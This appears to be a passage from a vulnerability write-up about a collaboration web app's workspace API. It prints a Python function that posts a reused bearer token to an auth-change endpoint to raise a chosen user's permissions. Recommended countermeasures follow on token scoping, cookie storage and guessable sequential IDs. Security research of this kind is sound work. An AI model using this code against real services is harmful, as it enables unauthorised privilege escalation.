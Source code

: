 ```python
def changeAuth(self):
    Headers = {
        "Host": self.target_url,
        "Authorization": f"Bearer {self.token}"
    }
    # Who is admin
    name = input("[+] Who is admin? : ")
    # What is auth
    auth = input("[+] What is auth? : ")
    data = {"workspace_user_id_to_update": self.target_user[name]['workspace_user_id'],
            "workspace_user_id": self.target_user[name]['workspace_user_id'],
            "workspace_id": self.workspace_id,
            "auth": auth
            }
    res = requests.post(
        f"https://{self.target_url}/api/v1/workspaceUser/change/auth",
        data=data,
        headers=Headers)
    state = json.loads(res.content.decode())
    print(state)
```
## Security Countermeasure

### Secure authentication session management

- `apiToken`, which is used for all authorization authentication, is used the same within all workspaces that the user is accessing.
- Services that require permission in a web application must require logic for permission verification, but currently perform authorization inspection with Security Header attributes and use `apiToken` at this time.
- However, token management problems arise where the token is stored.
- Tokens required for authorization authentication must use arbitrarily generated tokens, not the same tokens, when the user accesses another worksapse.
- In token management, the method of storing tokens should store session cookie values rather than window objects.
    - Apply Host Only, Session, and Secure Cookie Security Policy.

### Safe data management.

- If you send a request to the server, you must create and send a data format that cannot be inferred from the outside.
- This is because when checking data such as current user_id and workspace_id, it was immediately confirmed that integer values were used when they were generated sequentially.
- Key and value values should be made in a format not related to service logic so that data closely related to database cannot be recognized from the outside.
```toc
```

```toc
```